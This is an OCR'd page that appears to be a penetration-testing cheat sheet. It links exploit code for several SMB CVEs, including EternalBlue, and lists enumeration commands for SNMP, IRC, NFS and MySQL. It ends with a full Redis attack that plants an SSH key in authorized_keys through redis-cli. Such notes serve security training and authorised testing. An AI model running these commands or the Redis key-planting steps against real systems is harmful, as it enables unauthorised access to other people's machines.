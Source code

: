 SMB Exploits :
Samba "username map script" Command Execution - CVE-2007-2447
Version 3.0.20 through 3.0.25rc3
Samba-usermap-exploit.py -
https://gist.github.com/joenorton8014/19aaa00e0088738fc429cff2669b9851
Eternal Blue - CVE-2017-0144
SMB v1 in Windows Vista SP2; Windows Server 2008 SP2 and R2 SP1; Windows 7
SP1; Windows 8.1; Windows Server 2012 Gold and R2; Windows RT 8.1; and
Windows 10 Gold, 1511, and 1607; and Windows Server 2016
https://github.com/adithyan-ak/MS17-010-Manual-Exploit
SambaCry - CVE-2017-7494
4.5.9 version and before
https://github.com/opsxcq/exploit-CVE-2017-7494

SNMP (161)

1 snmpwalk -c public -v1 10.0.0.0
2 snmpcheck -t 192.168.1.X -c public
3 onesixtyone -c names -i hosts
4 nmap -sT -p 161 192.168.X.X -oG snmp_results.txt
5 snmpenum -t 192.168.1.X

IRC (194,6667,6660-7000)
nmap -sV --script irc-botnet-channels,irc-info,irc-unrealircd-backdoor -p 194,6660-7000
irked.htb
https://github.com/Ranger11Danger/UnrealIRCd-3.2.8.1-Backdoor (exploit code)
NFS (2049)
showmount -e 10.1.1.27
mkdir /mnt/nfs
mount -t nfs 192.168.2.4:/nfspath-shown /mnt/nfs

Permission Denied ? (https://blog.christophetd.fr/write-up-vulnix/)
MYSQL (3306)

nmap -sV -Pn -vv 10.0.0.1 -p 3306 --script mysql-audit,mysql-databases,mysql-dump-
hashes,mysql-empty-password,mysql-enum,mysql-info,mysql-query,mysql-users,mysql-
variables,mysql-vuln-cve2012-2122

Redis (6379)
In the output of config get * you could find the home of the redis user (usually /var/lib/redis
or /home/redis/.ssh), and knowing this you know where you can write the
authenticated_users file to access via ssh with the user redis. If you know the home of other
valid user where you have writable permissions you can also abuse it:
1. Generate a ssh public-private key pair on your pc: ssh-keygen -t rsa
2. Write the public key to a file :
(echo -e "\n\n"; cat ./.ssh/id_rsa.pub; echo -e "\n\n") > foo.txt
3. Import the file into redis : cat foo.txt | redis-cli -h 10.10.10.10 -x set crackit
4. Save the public key to the authorized_keys file on redis server:

1 root@Urahara:~# redis-cli -h 10.85.0.52
2 10.85.0.52:6379> config set dir /home/test/.ssh/
3 OK
4 10.85.0.52:6379> config set dbfilename "authorized_keys"
5 OK
6 10.85.0.52:6379> save
7 OK

